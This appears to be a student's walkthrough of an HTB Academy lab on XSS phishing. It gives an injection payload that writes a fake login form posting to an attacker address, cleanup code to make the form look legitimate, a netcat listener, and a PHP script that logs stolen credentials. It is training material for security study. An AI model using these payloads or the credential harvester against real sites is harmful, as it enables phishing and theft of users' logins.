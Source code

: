 This is a walkthrough from  [HTB Academy](https://academy.hackthebox.com/module/103/section/984).
## XSS Discovery

Found a working XSS payload to put in the input field for the image link:
```html
'><script>alert('my alert')</script>
```

## Login Form Injection

We need to inject an HTML code that displays a login form on the targeted page. It should send login information to a server we are listening on.

We can easily find an HTML code for a basic login form, or we can write our own login form. The following example should present a login form:
```html
<h3>Please login to continue</h3>
<form action=http://OUR_IP>
    <input type="username" name="username" placeholder="Username">
    <input type="password" name="password" placeholder="Password">
    <input type="submit" name="submit" value="Login">
</form>
```

We can use the JavaScript function `document.write()` to write HTML code to the page. Once we minify our HTML code into a single line and add it inside the `write` function, the final JavaScript code should be as follows:
```javascript
'>document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

The page now should look as follow:
![[xss_phishing_injected_login_form.jpg]]

## Cleaning Up

We should remove other fields (like the image URL field above), so our login form will look legit, so the users may think they have to login to use the page. For this, we can use the JavaScript function `document.getElementById().remove()`.

To find the `id` of the HTML element we want to remove, we can open the `Page Inspector Picker` by clicking [`CTRL+SHIFT+C`] and then clicking on the element we need:
![[xss_page_inspector_picker.jpg]]

We can now use this id with the `remove()` function to remove the URL form:
```javascript
document.getElementById('urlform').remove();
```

Now, once we add this code to our previous JavaScript code (after the `document.write` function), we can use this new JavaScript code in our payload:
```javascript
'>document.write('<h3>Please login to continue</h3><form action=http://10.10.14.250><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');document.getElementById('urlform').remove();
```

There is still a piece from the original HTML code left:
![[xss_phishing_injected_login_form_2.jpg]]

We can remove it by commenting it out:
```html
...PAYLOAD... <!--
```

We can now copy the final URL that should include the entire payload, and we can send it to our victims and attempt to trick them into using the fake login form. You can try visiting the URL to ensure that it will display the login form as intended.

## Credential Stealing

If we'll currently try to login using this page, we will get an error `This site can’t be reached`. Because we are not currently listening for a connection.

We can start a simple `netcat` server:
```shell-session
$ sudo nc -lvnp 80
```

When trying to login with the credentials `test:test`, this is what we get:
```shell-session
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.XX.XX] XXXXX
GET /?username=test&password=test&submit=Login HTTP/1.1
Host: 10.10.XX.XX
...SNIP...
```

Since we only use a `netcat` listener, it will not handle the HTTP request properly, and the user will get an `Unable to connect` error. We can use a basic PHP script, which will log the credentials and will return the victim tot the original page.

The following PHP script should do what we need:
```php
<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://SERVER_IP/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

Now that we have our `index.php` file ready, we can start a `PHP` listening server, which we can use instead of the basic `netcat` listener we used earlier:
```shell-session
$ mkdir /tmp/tmpserver
Wildland4958@htb[/htb]$ cd /tmp/tmpserver
Wildland4958@htb[/htb]$ vi index.php #at this step we wrote our index.php file
Wildland4958@htb[/htb]$ sudo php -S 0.0.0.0:80
PHP 7.4.15 Development Server (http://0.0.0.0:80) started
```

We can check the `creds.txt` file to see the credentials:
```shell-session
$ cat creds.txt
Username: admin | Password: p1zd0nt57341myp455
```
